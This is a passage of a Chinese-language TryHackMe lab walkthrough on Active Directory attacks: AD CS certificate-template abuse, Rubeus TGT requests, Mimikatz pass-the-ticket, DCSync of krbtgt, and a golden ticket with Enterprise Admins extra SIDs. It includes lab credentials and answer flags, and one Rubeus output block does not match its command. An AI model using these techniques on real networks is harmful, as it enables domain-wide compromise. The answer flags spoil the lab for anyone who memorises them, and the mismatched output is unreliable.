

</div>

修改相关权限

<div style={{textAlign:'center'}}>



</div>

然后接下来使用我们当初添加到 `IT Support` 用户组的账户：

```plaintext
Username: christopher.smith
Password: Mznl7973
```

使用这个账户登录到 THMSERVER2

```shell
ssh za.tryhackme.loc\\christopher.smith@thmserver2.za.tryhackme.loc
......
za\christopher.smith@THMSERVER2 C:\Users\Administrator\Desktop>type flag4.txt
THM{Exploiting.GPOs.For.Fun.And.Profit}
```

</details>

```plaintext
THM{Exploiting.GPOs.For.Fun.And.Profit}
```

:::

## Exploiting Certificates - 利用证书

现在我们已经能够访问 THMSERVER2，我们通过利用所有 Tier 1 资产（服务器）来进一步利用 AD。然而，我们再次遇到了无法简单地进入下一层的难题。因此，我们需要寻找更具创造性的路径。

[SpecterOps 发布的研究白皮书](https://posts.specterops.io/certified-pre-owned-d95910965cd2) 显示，可以利用配置错误的证书模板进行权限提升和横向移动。

### AD 证书服务

AD 证书服务（CS）是微软的公钥基础设施（PKI）实现。由于 AD 在组织中提供了一定程度的信任，它可以作为 CA 来证明和委派信任。AD CS 用于诸如加密文件系统、创建和验证数字签名，甚至用户认证等多种用途，使其成为攻击者的一个有前景的途径。

由于 AD CS 是一个特权功能，通常在选定的域控制器上运行。这意味着普通用户实际上无法直接与该服务交互。另一方面，组织往往过大，无法让管理员手动创建和分发每个证书。这就是证书模板发挥作用的地方。AD CS 的管理员可以创建多个模板，允许具有相关权限的任何用户自行请求证书。这些模板具有参数，说明了哪个用户可以请求证书以及需要什么条件。SpecterOps 发现，特定组合的这些参数可能非常有毒，并可用于特权升级和持久访问的滥用。

在深入探讨证书滥用之前，先了解一些术语：

- PKI（公钥基础设施）- 管理证书和公钥加密的系统
- AD CS（Active Directory 证书服务）- 微软的 PKI 实现，通常运行在域控制器上
- CA（证书颁发机构）- 颁发证书的 PKI
- Certificate Template （证书模板） - 一组设置和策略，定义了证书何时以及如何可以由 CA 颁发
- CSR（证书签名请求）- 发送给 CA 以请求签名证书的消息
- EKU（扩展 / 增强密钥用法）- 定义生成证书可以如何使用的对象标识符

### 查找易受攻击的证书模板

为了找到存在漏洞的模板，我们将使用 Windows 内置工具 certutil。利用我们在 THMSERVER2 上的 RDP 访问权限，我们可以运行以下 Powershell 脚本来列举证书：

```powershell title="Powershell"
C:\>certutil -Template -v > templates.txt
```

这将提供所有配置模板的输出。我们也可以使用诸如 Ghostpack 的 [PSPKIAudit](https://github.com/GhostPack/PSPKIAudit) 之类的证书审计工具。但是，手动方法可以确保我们找到所有可能的错误配置。如果一组参数值的组合变得有害，允许请求者执行特权升级，那么证书模板被视为配置错误。在我们的情况下，我们正在寻找具有以下有害参数组合的模板：

- 客户端认证 - 证书可用于客户端认证。
- CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT - 证书模板允许我们指定主体备用名称（SAN）。
- CTPRIVATEKEY_FLAG_EXPORTABLE_KEY - 证书将可以导出包含私钥。
- 证书权限 - 我们具有使用证书模板所需的权限。

如果你对了解有害参数组合感兴趣，可以阅读 SpecterOps 的白皮书。由于本次演练的目的是为了更广泛地了解 AD 攻击，我们将指出 Template[32] 是存在漏洞的模板。在这个模板中，我们可以看到 THMSERVER2 的机器帐户可以为允许我们指定主体备用名称（SAN）并可用于客户端认证的模板发布 CSR。

SpecterOps 提到了与 AD CS 相关的八个常见安全错误配置，因此需要注意，仍然有大量可能发现的错误配置。

### 利用证书模板

使用在 THMSERVER2 上的 RDP 访问权限，我们现在将请求我们的证书。如果你使用 Remmina 并保存了 RDP 连接的配置，请确保禁用了受限管理员模式。我们将使用 Microsoft Management Console（MMC）：

1. 点击开始 -> 运行
2. 输入 mmc 并按回车
3. 点击文件 -> 添加 / 移除插件..
4. 添加证书插件，并确保在提示中选择计算机帐户和本地计算机。
5. 点击确定

现在你应该看到了证书插件：

<div style={{textAlign:'center'}}>



</div>

我们将请求一个个人证书：

1. 右键点击 “个人”，选择 “所有任务 -> 请求新证书…”
2. 点击两次 “下一步” 以选择 AD 注册策略。
3. 你会看到我们可以请求一个模板，但首先，我们需要提供额外的信息。
4. 点击 “更多信息” 警告。
5. 将 “主体名称类型” 选项更改为 “通用名称”，提供任何值，因为这并不重要，然后点击 “添加”。
6. 将 “备用名称类型” 选项更改为 “用户主体名称（UPN）”。
7. 提供你想要模仿的用户的 UPN。最好选择一个 DA（域管理员）账户，比如 `Administrator@za.tryhackme.loc` ，然后点击 “添加”。

你的证书信息应该是这样的：

<div style={{textAlign:'center'}}>



</div>

一旦确认无误，点击应用和确定。然后，选择证书并点击 “注册”。你应该能够看到你的证书：

<div style={{textAlign:'center'}}>



</div>

最后一步是导出带有私钥的证书：

1. 右键点击证书，选择 “所有任务 -> 导出…”
2. 点击下一步，选择是，导出私钥，然后点击下一步。
3. 点击下一步，然后为证书设置一个密码，因为没有密码无法导出私钥。
4. 点击下一步，选择存储证书的位置。
5. 点击下一步，最后点击完成。

### 通过证书模拟用户

现在我们终于可以模仿一个用户了。为了完成这个操作，需要两个步骤：

1. 使用证书请求 Kerberos 票据授权票据（TGT）。
2. 将 Kerberos TGT 加载到你选择的黑客平台中。

对于第一步，我们将使用 Rubeus。已经编译好的版本可以在 `C:\Tools\` 目录下找到。打开命令提示符窗口并导航到这个目录。我们将使用以下命令来请求 TGT：

```shell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate: /password: /outfile: /domain:za.tryhackme.loc /dc:
```

让我们分解一下这些参数：

- /user - 指定我们将要模仿的用户，必须与我们生成证书的 UPN 匹配。
- /enctype - 指定票据的加密类型。设置这个很重要，因为默认的加密算法较弱，会导致超越哈希警报。
- /certificate - 指向我们生成的证书的路径。
- /password - 我们证书文件的密码。
- /outfile - 存储我们的 TGT 的文件路径。
- /domain - 我们当前攻击的域的完全限定域名（FQDN）。
- /dc - 我们从中请求 TGT 的域控制器的 IP 地址。通常最好选择一个运行 CA 服务的 DC。

一旦执行命令，我们应该会收到我们的 TGT。

```shell title="TGT Request"
C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:12.31.1.101
          ______        _
         (_____ \      | |
          _____) )_   _| |__  _____ _   _  ___
         |  __  /| | | |  _ \| ___ | | | |/___)
         | |  \ \| |_| | |_) ) ____| |_| |___ |
         |_|   |_|____/|____/|_____)____/(___/

         v2.0.0

       [*] Action: Ask TGT

       [*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=vulncert
       [*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\svc.gitlab'
       [+] TGT request successful!
       [*] base64(ticket.kirbi):

             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

         ServiceName              :  krbtgt/za.tryhackme.loc
         ServiceRealm             : ZA.TRYHACKME.LOC
         UserName                 : Adminsitrator
         UserRealm                : ZA.TRYHACKME.LOC
         StartTime                :  2/6/2022 5:54:46 PM
         EndTime                  :  2/7/2022 3:54:46 AM
         RenewTill                :  2/13/2022 5:54:46 PM
         Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
         KeyType                  :  aes256_cts_hmac_sha1
         Base64(key)              :  Qr+FUX+/G2jHgAR2ssW11+lhaPlB6dMD8V5/rENwJVU=
         ASREP (key)              :  BF2483247FA4CB89DA0417DFEC7FC57C79170BAB55497E0C45F19D976FD617ED
```

现在我们可以使用 Mimikatz 来加载 TGT 并认证到 THMDC：

```shell title="Powershell"
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::ptt administrator.kirbi

* File: 'administrator.kirbi': OK

mimikatz # exit
Bye!

C:\Tools>dir \\THMDC.za.tryhackme.loc\c$\
 Volume in drive \\THMDC.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\THMDC.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
04/27/2022  10:53 PM           885,468 MzIzMzViM2ItMmQ2Zi00YWQ3LWEwNjEtYjg2MmFjNzViY2Ix.bin
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,914,541,568 bytes free
```

最终，我们已经获得了零级基础设施的访问权限，并且成功入侵了整个子域！

:::info Answer the questions below

用户创建什么来向 CA 请求证书？

```plaintext
Certificate signing request
```

微软的 PKI 实现名称是什么？

```plaintext
Active Directory Certificate Services
```

存储在管理员桌面目录 THMDC 上的标志的值是多少 (flag5.txt)？

```plaintext
THM{AD.Certs.Can.Get.You.DA}
```

:::

## Exploiting Domain Trusts - 利用域信任

虽然我们已经访问了 Tier 0 设施，但这还不够。我们只是利用了 ZA.TRYHACKME.LOC 域。肯定 TRYHACKME 还有其他地区的域，对吧？如果我们控制了根域 TRYHACKME.LOC，我们就能够控制所有这些地区域。在这个任务中，我们将看看如何利用域信任来控制整个林区。

### 域信任

正如在 AD 基础知识房间中讨论的那样，一个森林是 AD 网络中一个或多个域树的集合。域信任是网络中用户获取对其他资源访问权限的机制。在很大程度上，信任定义了森林内部域之间的通信方式。在某些环境中，信任可以延伸到外部域，甚至在某些情况下还可以延伸到其他森林。

在域之间可以配置两种主要类型的信任：

- 方向性 - 信任的方向从一个信任域流向一个被信任域
- 可传递性 - 信任关系扩展到不仅仅是两个域，还包括其他被信任的域

在一个森林中通常会有一个根或父域。在我们的情况下，这是 TRYHACKME.LOC。对于每个区域办公室，都会创建子域或子域，比如 ZA.TRYHACKME.LOC 或 UK.TRYHACKME.LOC。这种森林配置将允许 ZA 和 UK 办公室之间共享资源。例如，如果 UK 办公室的某个用户需要访问 THMSERVER1，我们可以为 ZA 域中的用户授予访问权限。这种权限委派可以工作，因为 ZA 与根域以及 UK 与根域之间存在双向信任，从根本上创建了 ZA 和 UK 之间的可传递信任。

如上所述，父域和子域之间的信任是双向的。这是预期的行为，并且用于通过更大的可传递信任关系共享资源。然而，作为攻击者，如果我们已经攻击了子域，我们也可以利用这种信任来威胁到父域。

### KRBTGT 和黄金票据

KRBTGT 是微软对 Kerberos 的实现所使用的账户。名称来源于 Kerberos（KRB）和 Ticket Granting Ticket（TGT）。实质上，这个账户充当 Kerberos Distribution Center（KDC）服务的服务账户，该服务处理所有 Kerberos 票证请求。这个账户用于为域中的所有 Kerberos 票证加密和签名。由于密码哈希由所有域控制器共享，因此它们可以验证用户请求访问资源时接收到的 TGT 的真实性。

然而，如果我们想要生成自己的 TGT 来授予我们对一切的访问权限怎么办？这就是所谓的 Golden Ticket 攻击。在 Golden Ticket 攻击中，我们完全绕过了 KDC，创建自己的 TGT，本质上成为了一个 Ticket Granting Server（TGS）。为了伪造 TGT，我们需要以下信息：

- 域的 FQDN（完全限定域名）
- 域的安全标识符（SID）
- 我们想要冒充的账户用户名
- KRBTGT 密码哈希

前三个通常很容易恢复。最后一个需要域被威胁，因为 KRBTGT 密码哈希只存储在域控制器上。幸运的是，我们刚刚通过伪造证书攻击了 Tier 0 管理员组，所以我们有能力恢复 THMSERVER2 上的 KRBTGT 密码哈希。

我们将再次使用 Mimikatz 和 DC Sync 来恢复 THMSERVER2 上的 KRBTGT 密码哈希：

```shell title="Command Prompt"
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::dcsync /user:za\krbtgt
[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server
[DC] 'za\krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 (USER_OBJECT)
User Account Control : 00000202 (ACCOUNTDISABLE NORMAL_ACCOUNT)
Account expiration   :
Password last change : 4/25/2022 7:18:22 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: removed
    ntlm- 0: removed
    lm  - 0: removed
[....]
```

### Inter-Realm TGTs - 跨域 TGT

抓取 KRBTGT 密码哈希后，我们现在可以伪造一个 Golden Ticket 来访问子域中的任何资源。这也将在 “持续 AD” 房间中进行更详细的讨论。然而，我们可以通过伪造一个 Inter-Realm TGT 来进一步操作。Inter-Realm TGT 用于提供对其他域中资源的访问权限。在我们的情况下，我们希望利用子域和父域之间的双向信任关系，以获取对父域的完全访问权限。

在构造 Golden Ticket 时，我们将包含来自其他域的额外账户 SID，以执行此漏洞利用。Mimikatz 可以帮助我们，在 Kerberos TGT 的 KERB_VALIDATION_INFO 结构的 ExtraSids 部分中设置 ExtraSids。ExtraSids 部分被描述为 “指向包含与主体所属账户域之外的域中组的 SID 列表的 KERB_SID_AND_ATTRIBUTES 结构列表的指针”。

关键在于，我们将通过在我们伪造的子域域控制器的票证中添加 Enterprise Admins（EA）组的 SID 作为额外 SID 来利用父域对我们子域的信任。EA 组属于父域，加入这个组基本上授予了对整个森林的管理权限！该组的默认 SID 是 `S-1-5-21-<RootDomain>-519` 。

在进行利用之前，我们首先需要恢复两个 SID：

- 子域控制器（THMDC）的 SID，我们将在我们伪造的 TGT 中冒充
- 父域中 Enterprise Admins 的 SID，我们将作为伪造的 TGT 的额外 SID 添加

要恢复这些 SID，我们可以使用 AD-RSAT Powershell 命令。我们可以使用以下命令恢复子域控制器的 SID：

```shell title="Command Prompt"
PS C:\> Get-ADComputer -Identity "THMDC"

DistinguishedName : CN=THMDC,OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DNSHostName       : THMDC.za.tryhackme.loc
Enabled           : True
Name              : THMDC
ObjectClass       : computer
ObjectGUID        : bd651750-782b-4b09-93b4-b5987ec7311b
SamAccountName    : THMDC$
SID               : S-1-5-21-3885271727-2693558621-2658995185-1001
UserPrincipalName :
```

我们可以使用以下命令查询父域控制器来恢复 Enterprise Admins 组的 SID：

```shell title="Command Prompt"
PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc

DistinguishedName : CN=Enterprise Admins,CN=Users,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Universal
Name              : Enterprise Admins
ObjectClass       : group
ObjectGUID        : a23ae384-16e8-44d5-9b36-8173c4e0e5de
SamAccountName    : Enterprise Admins
SID               : S-1-5-21-3330634377-removed-519
```

### 利用域信任

我们最终拥有了创建伪造 TGT 所需的所有信息。我们将使用 Mimikatz 生成这个 Golden Ticket。命令会类似于这样：

```shell title="Command Prompt"
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
User      : Administrator
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185-1001
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3330634377-1326264276-632209373-519 ;
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt
Service   : krbtgt
Lifetime  : 4/30/2022 7:52:51 PM ; 4/27/2032 7:52:51 PM ; 4/27/2032 7:52:51 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ za.tryhackme.loc' successfully submitted for current session
```

首先，我们将验证该票证是否可用于访问 THMDC，因为它是子域管理员用户的有效票证：

```shell title="Command Prompt"
C:\>dir \\thmdc.za.tryhackme.loc\c$
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,913,189,888 bytes free;
```

这至少确认了 Golden Ticket 是用于访问子域 DC 的伪造票证。然而，由于我们指定了额外的 SID，我们现在应该也可以访问父域 DC 了：

```shell title="Command Prompt"
C:\>dir \\thmrootdc.tryhackme.loc\c$\
 Volume in drive \\thmrootdc.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmrootdc.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:25 PM    <DIR>          Program Files (x86)
04/23/2022  09:21 AM                58 root_dns_entries.csv
04/23/2022  09:22 AM             1,432 thm-network-setup-dc.ps1
04/25/2022  05:50 PM    <DIR>          tmp
04/27/2022  07:54 AM    <DIR>          Users
04/25/2022  05:50 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  06:29 PM    <DIR>          Windows
               3 File(s)          1,593 bytes
               7 Dir(s)  51,105,730,560 bytes free
```

这证实了我们现在完全威胁了父域，仅仅通过威胁其中一个子域！

:::info Answer the questions below

父域和子域之间默认配置什么域信任关系？

```plaintext
Directional trust
```

AD KDC 用于加密和签署 TGT 的帐户名称是什么？

```plaintext
KRBTGT
```

TGT 授予对当前域之外的资源的访问权限的的名称是什么？

```plaintext
Inter-Realm TGT
```

管理员桌面文件夹 (flag6.txt) 中 THMROOTDC 上存储的标志的值是多少？

<details>

<summary> 具体操作步骤 </summary>

```shell
mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:16f9af38fca3ada405386b3b57366082 /sids:S-1-5-21-3330634377-1326264276-632209373-519 /ptt
User      : Administrator
Domain    : za.tryhackme.loc (ZA)
SID       : S-1-5-21-3885271727-2693558621-2658995185-1001
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3330634377-1326264276-632209373-519 ;
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt
Service   : krbtgt
Lifetime  : 12/12/2023 1:30:03 PM ; 12/9/2033 1:30:03 PM ; 12/9/2033 1:30:03 PM
-> Ticket : ** Pass TheTicket**

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

 Golden ticket for 'Administrator @ za.tryhackme.loc' successfully submitted for current session
```

</details>

```plaintext
THM{Full.EA.Compromise}
```

:::

## Conclusion

利用 AD 需要时间去掌握，所使用的技术高度依赖于被攻击的 AD 结构的配置。最重要的是要明白这个过程是循环的。在大多数情况下，我们不能运行一个单一的引导到根权限的攻击来获得域管理员权限。最佳方式是执行能够进一步提升你权限的利用方法，然后利用已经获得的权限再次进行枚举，寻找从这个新位置可能存在的额外攻击路径。

### 缓解措施

